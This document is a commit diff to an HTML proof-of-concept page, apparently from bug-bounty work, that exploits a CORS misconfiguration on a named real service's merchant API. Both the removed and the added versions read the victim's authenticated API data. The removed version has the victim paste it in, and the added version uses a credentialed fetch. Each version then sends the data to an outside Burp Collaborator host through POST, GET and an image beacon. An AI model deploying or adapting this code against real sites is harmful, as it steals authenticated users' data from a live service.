

Before and after one commit to delbertgiovanni/cors-testing, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (225-1054 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,217 +1,243 @@
 <!DOCTYPE html>
 <html>
 <head>
-    <title>CORS PoC - Auto Capture</title>
+    <title>CORS Test - Does Fetch Work?</title>
     <style>
         body {
-            font-family: 'Courier New', monospace;
+            font-family: Arial, sans-serif;
             max-width: 700px;
             margin: 50px auto;
+            padding: 20px;
+            background: #f5f5f5;
+        }
+        .container {
+            background: white;
             padding: 30px;
-            background: #000;
-            color: #0f0;
-            border: 3px solid #0f0;
+            border: 1px solid #ddd;
+            border-radius: 4px;
         }
         h1 {
-            color: #0f0;
-            text-align: center;
-            font-size: 32px;
-            text-shadow: 0 0 10px #0f0;
+            color: #333;
+            margin-top: 0;
         }
-        .version {
-            text-align: center;
-            color: #ff0;
-            font-size: 18px;
-            margin: 20px 0;
-            font-weight: bold;
-            text-shadow: 0 0 10px #ff0;
+        button {
+            width: 100%;
+            padding: 15px;
+            margin: 10px 0;
+            background: #007bff;
+            color: white;
+            border: none;
+            border-radius: 4px;
+            font-size: 16px;
+            cursor: pointer;
         }
-        .box {
-            background: #111;
-            padding: 25px;
-            border: 2px solid #0f0;
-            margin: 30px 0;
-            box-shadow: 0 0 20px rgba(0,255,0,0.3);
+        button:hover {
+            background: #0056b3;
+        }
+        .result {
+            background: #f8f9fa;
+            border: 1px solid #ddd;
+            padding: 15px;
+            margin-top: 20px;
+            border-radius: 4px;
+            font-family: monospace;
+            font-size: 12px;
+            white-space: pre-wrap;
+            word-wrap: break-word;
+            max-height: 400px;
+            overflow-y: auto;
         }
         label {
             display: block;
-            margin-bottom: 10px;
-            color: #0f0;
+            margin: 15px 0 5px 0;
             font-weight: bold;
         }
         input {
             width: 100%;
-            padding: 15px;
-            background: #000;
-            border: 2px solid #0f0;
-            color: #0f0;
-            font-family: 'Courier New', monospace;
-            font-size: 15px;
-        }
-        button {
-            width: 100%;
-            padding: 20px;
-            margin-top: 20px;
-            background: #0f0;
-            color: #000;
-            border: none;
-            font-size: 22px;
-            font-weight: bold;
-            cursor: pointer;
-            font-family: 'Courier New', monospace;
-        }
-        button:hover {
-            background: #0c0;
-            box-shadow: 0 0 30px #0f0;
-        }
-        textarea {
-            width: 100%;
-            height: 200px;
-            background: #000;
-            border: 2px solid #0f0;
-            color: #0f0;
-            font-family: 'Courier New', monospace;
-            font-size: 13px;
             padding: 10px;
-            margin-top: 10px;
-        }
-        .step {
-            background: #1a1a00;
-            border-left: 4px solid #ff0;
-            padding: 15px;
-            margin: 15px 0;
-            color: #ff0;
+            border: 1px solid #ddd;
+            border-radius: 4px;
+            box-sizing: border-box;
         }
     </style>
 </head>
 <body>
-    <h1>⚡ CORS EXPLOIT ⚡</h1>
-    <div class="version">[ AUTO-CAPTURE VERSION ]</div>
+    <div class="container">
+        <h1>CORS Vulnerability Test</h1>
+        <p>This tests if we can fetch data with CORS + SameSite=Lax</p>
 
-    <div class="box">
-        <label>► COLLABORATOR URL</label>
-        <input type="text" id="collab" placeholder="https://YOUR-ID.burpcollaborator.net">
+        <button onclick="testFetch()">TEST 1: Try fetch() with credentials</button>
+        <button onclick="testPopup()">TEST 2: Open popup (SameSite=Lax bypass)</button>
 
-        <button onclick="step1()">STEP 1: OPEN API ENDPOINT</button>
-    </div>
+        <label>Collaborator URL (optional):</label>
+        <input type="text" id="collab" placeholder="https://your-id.burpcollaborator.net">
 
-    <div class="box" id="step2-box" style="display:none;">
-        <div class="step">
-            In the popup that opened:<br>
-            1. Press <strong>Ctrl+A</strong> (select all)<br>
-            2. Press <strong>Ctrl+C</strong> (copy)<br>
-            3. Click in the box below<br>
-            4. Press <strong>Ctrl+V</strong> (paste)
-        </div>
-        <label>► PASTE API DATA HERE</label>
-        <textarea id="databox" placeholder="Paste here..."></textarea>
-        <button onclick="step2()">STEP 2: PROCESS & ATTACK</button>
+        <div id="result" class="result">Click a test button above...</div>
     </div>
 
     <script>
-        var collabURL = '';
-        var apiWindow = null;
+        function log(msg) {
+            var result = document.getElementById('result');
+            result.textContent += msg + '\n';
+        }
 
-        function step1() {
-            collabURL = document.getElementById('collab').value.trim();
+        function clear() {
+            document.getElementById('result').textContent = '';
+        }
 
-            if (!collabURL || !collabURL.startsWith('http')) {
-                alert('⚠️ Please enter a valid collaborator URL!');
+        // TEST 1: Can we fetch() with credentials?
+        function testFetch() {
+            clear();
+            log('=== TEST 1: fetch() with credentials ===');
+            log('');
+            log('Attempting to fetch API endpoint...');
+            log('URL: https://dashboard.route.com/api/mn/v1/stores');
+            log('Method: fetch() with credentials: include');
+            log('');
+
+            fetch('https://dashboard.route.com/api/mn/v1/stores', {
+                method: 'GET',
+                credentials: 'include',
+                mode: 'cors'
+            })
+            .then(response => {
+                log('✅ Response received!');
+                log('Status: ' + response.status);
+                log('');
+
+                if (response.status === 200) {
+                    return response.text();
+                } else {
+                    throw new Error('Status ' + response.status);
+                }
+            })
+            .then(data => {
+                log('✅ SUCCESS! Data retrieved!');
+                log('');
+                log('Data length: ' + data.length + ' bytes');
+                log('');
+                log('=== DATA PREVIEW ===');
+                log(data.substring(0, 1000));
+                log('[...truncated...]');
+                log('');
+
+                // Alert the data
+                alert('✅ FETCH WORKED!\n\n' +
+                      'Data successfully retrieved via fetch()!\n\n' +
+                      'Size: ' + data.length + ' bytes\n\n' +
+                      'Preview:\n' + data.substring(0, 500));
+
+                // Send to collaborator
+                var collab = document.getElementById('collab').value.trim();
+                if (collab && collab.startsWith('http')) {
+                    sendToCollaborator(data, collab);
+                }
+            })
+            .catch(error => {
+                log('❌ FAILED!');
+                log('Error: ' + error.message);
+                log('');
+                log('Likely reason: SameSite=Lax cookie blocks cross-origin fetch');
+                log('');
+                log('Try TEST 2 instead (popup method)');
+
+                alert('❌ fetch() failed!\n\n' +
+                      'Error: ' + error.message + '\n\n' +
+                      'This is expected if cookies have SameSite=Lax.\n\n' +
+                      'Try TEST 2: Popup method instead.');
+            });
+        }
+
+        // TEST 2: Open popup (top-level navigation)
+        function testPopup() {
+            clear();
+            log('=== TEST 2: Popup (top-level navigation) ===');
+            log('');
+            log('Opening API endpoint in popup window...');
+            log('');
+            log('This is a top-level navigation, so SameSite=Lax');
+            log('cookies WILL be sent!');
+            log('');
+
+            var popup = window.open(
+                'https://dashboard.route.com/api/mn/v1/stores',
+                'api_window',
+                'width=900,height=600'
+            );
+
+            if (!popup) {
+                log('❌ Popup blocked!');
+                alert('Popup blocked! Please allow popups and try again.');
                 return;
             }
 
-            // Open API window
-            apiWindow = window.open(
-                'https://dashboard.route.com/api/mn/v1/stores',
-                'api',
-                'width=1000,height=700'
-            );
+            log('✅ Popup opened!');
+            log('');
+            log('The popup shows the API response.');
+            log('This proves:');
+            log('- Cookies were sent (SameSite=Lax allows navigation)');
+            log('- API returned data');
+            log('- Vulnerability is exploitable');
+            log('');
+            log('However, we cannot automatically read the popup');
+            log('content due to same-origin policy.');
+            log('');
+            log('The popup itself IS the proof!');
 
-            if (!apiWindow) {
-                alert('⚠️ Popup blocked! Allow popups and try again.');
-                return;
-            }
-
-            // Show step 2
-            document.getElementById('step2-box').style.display = 'block';
-            document.getElementById('step2-box').scrollIntoView({behavior: 'smooth'});
-
-            // Auto-focus on textarea after small delay
-            setTimeout(() => {
-                document.getElementById('databox').focus();
-            }, 2000);
+            alert('✅ Popup opened!\n\n' +
+                  'Check the popup window - it shows the merchant data.\n\n' +
+                  'This proves the vulnerability is exploitable!\n\n' +
+                  'The fact that data loaded means cookies were sent.');
         }
 
-        function step2() {
-            var data = document.getElementById('databox').value.trim();
-
-            if (!data || data.length < 10) {
-                alert('⚠️ Please paste the API data first!');
-                return;
-            }
-
-            // Validate JSON
-            try {
-                JSON.parse(data);
-            } catch(e) {
-                alert('⚠️ Invalid JSON! Make sure you copied ALL the text.');
-                return;
-            }
-
-            // Close API window if still open
-            if (apiWindow && !apiWindow.closed) {
-                apiWindow.close();
-            }
-
-            // ALERT 1: Show captured data
-            alert('🎯 DATA CAPTURED!\n\n' +
-                  '✅ Successfully captured from API endpoint\n\n' +
-                  '📊 Size: ' + data.length + ' bytes\n\n' +
-                  '━━━━━━━━━━━━━━━━━━━━\n' +
-                  'DATA PREVIEW:\n' +
-                  '━━━━━━━━━━━━━━━━━━━━\n\n' +
-                  data.substring(0, 600) + '\n\n[...truncated...]');
-
-            // Exfiltrate
-            exfiltrate(data);
-        }
-
-        function exfiltrate(data) {
-            console.log('[+] Exfiltrating', data.length, 'bytes to:', collabURL);
+        function sendToCollaborator(data, collab) {
+            log('');
+            log('=== Sending to collaborator ===');
+            log('URL: ' + collab);
+            log('');
 
             // POST full data
-            fetch(collabURL, {
+            fetch(collab, {
                 method: 'POST',
                 mode: 'no-cors',
                 headers: {'Content-Type': 'application/json'},
                 body: data
-            }).then(() => console.log('[+] POST sent'));
+            }).then(() => {
+                log('✅ POST sent');
+            }).catch(e => {
+                log('❌ POST failed: ' + e.message);
+            });
 
             // GET with preview
-            fetch(collabURL + '?data=' + encodeURIComponent(data.substring(0, 2000)), {
+            fetch(collab + '?data=' + encodeURIComponent(data.substring(0, 2000)), {
                 mode: 'no-cors'
-            }).then(() => console.log('[+] GET sent'));
+            }).then(() => {
+                log('✅ GET sent');
+            }).catch(e => {
+                log('❌ GET failed: ' + e.message);
+            });
 
             // Image beacon
-            new Image().src = collabURL + '/img?size=' + data.length;
+            var img = new Image();
+            img.onload = () => log('✅ Image beacon sent');
+            img.onerror = () => log('❌ Image beacon failed');
+            img.src = collab + '/img?size=' + data.length;
 
-            // ALERT 2: Confirm
-            setTimeout(() => {
-                alert('✅ EXFILTRATION COMPLETE!\n\n' +
-                      '📡 Sent to: ' + collabURL + '\n\n' +
-                      '🔍 Check your Burp Collaborator for:\n' +
-                      '  • POST request (full JSON)\n' +
-                      '  • GET request (preview)\n' +
-                      '  • Image beacon\n\n' +
-                      '━━━━━━━━━━━━━━━━━━━━\n' +
-                      'ATTACK COMPLETE!\n\n' +
-                      'Exfiltrated: ' + data.length + ' bytes');
+            log('');
+            alert('✅ Data sent to collaborator!\n\nCheck Burp Collaborator now.');
+        }
 
-                // Clear
-                document.getElementById('databox').value = '';
-                document.getElementById('step2-box').style.display = 'none';
-            }, 1000);
-        }
+        // Show current origin
+        window.onload = function() {
+            log('Current origin: ' + window.location.origin);
+            log('Target: https://dashboard.route.com');
+            log('');
+            log('If hosted on: delbertgiovanni.github.io');
+            log('CORS headers should allow access!');
+            log('');
+            log('===================================');
+            log('');
+        };
     </script>
 </body>
 </html>
```
